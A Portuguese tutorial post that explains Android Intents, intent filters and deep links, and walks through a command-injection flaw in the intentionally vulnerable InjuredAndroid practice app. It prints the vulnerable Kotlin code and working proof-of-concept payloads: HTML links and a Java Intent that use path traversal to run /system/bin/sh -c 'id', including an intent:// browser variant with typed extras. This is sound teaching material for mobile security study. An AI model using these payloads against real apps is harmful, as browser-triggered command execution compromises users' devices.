 # Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.

## AndroidManifest.xml

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## intent://

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## < intent-filter >

Como o Android sabe a qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele. O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro).

Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do `<intent-filter>`, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## flag13://rce

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função [`Runtime.getRuntime().exec()`](https://developer.android.com/reference/java/lang/Runtime#exec(java.lang.String[])) as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo, ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa PoC terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante

`index.html`
```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27&param=1">pwn me</a>
```

*Deixo de tarefa de casa exfiltrar o resultado do comando, ou abrir uma reverse shell no Android*

## S.Intent_Extras

Agora digamos que ao invés de receber as variáveis via *query*, o App as recebesse via Intent Extras, como fazer? Para criar um Intent com Extras apenas usamos a função [putExtra](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)).

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
intent.putExtra("binary","../../../../../system/bin/sh -c 'id'");
intent.putExtra("param","1");
startActivity(intent);
```

Ok, com isso conseguimos passar Intents Extras por meio de outro App, mas e pelo Browser? Nós podemos utilizar o scheme [`intent://`](https://developer.chrome.com/docs/multidevice/android/intents/) para isso! O Intent de cima fica assim :

```html
<a href="intent://rce/#Intent;scheme=flag13;S.binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27;S.param=1;end">pwn me</a>
```

Primeiro vem o scheme `intent://`, depois o host `rce` e logo após a string `#Intent`, que é obrigatória. A partir dai todas as variáveis são delimitadas por `;`. Passamos o `scheme=flag13` e definimos os Extras. O nome do Extra é precedido do tipo dele, como o Extra `binary` é do tipo String ele é definido com `S.binary`. Os Extras podem ter vários tipos, como a documentação do scheme `intent://` é escarsa, o melhor jeito é ler o código fonte do Android que faz o *parse* dele:  https://cs.android.com/android/platform/superproject/+/master:frameworks/base/core/java/android/content/Intent.java;l=7115;drc=master

```java
if      (uri.startsWith("S.", i)) b.putString(key, value);
else if (uri.startsWith("B.", i)) b.putBoolean(key, Boolean.parseBoolean(value));
else if (uri.startsWith("b.", i)) b.putByte(key, Byte.parseByte(value));
else if (uri.startsWith("c.", i)) b.putChar(key, value.charAt(0));
else if (uri.startsWith("d.", i)) b.putDouble(key, Double.parseDouble(value));
else if (uri.startsWith("f.", i)) b.putFloat(key, Float.parseFloat(value));
else if (uri.startsWith("i.", i)) b.putInt(key, Integer.parseInt(value));
else if (uri.startsWith("l.", i)) b.putLong(key, Long.parseLong(value));
else if (uri.startsWith("s.", i)) b.putShort(key, Short.parseShort(value));
else throw new URISyntaxException(uri, "unknown EXTRA type", i);
```


Por fim só colocar um `end` (:


## ;end

Podem existir vários tipos de vulnerabilidades oriundas dos Intents, RCE/SQLi/XSS até Buffer Overflow, vai depender só da criatividade do desenvolvedor. Para estudar esse assunto mais a fundo, recomendo a leitura do blog do [@bagipro_](https://twitter.com/_bagipro) https://blog.oversecured.com/ e dos reports públicos de Bug Bounty https://github.com/B3nac/Android-Reports-and-Resources . Além do [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) também podem brincar com o [Ovaa](https://github.com/oversecured/ovaa). |-|4ck th3 |>l4n3t 

[@caioluders ](twitter.com/caioluders/)
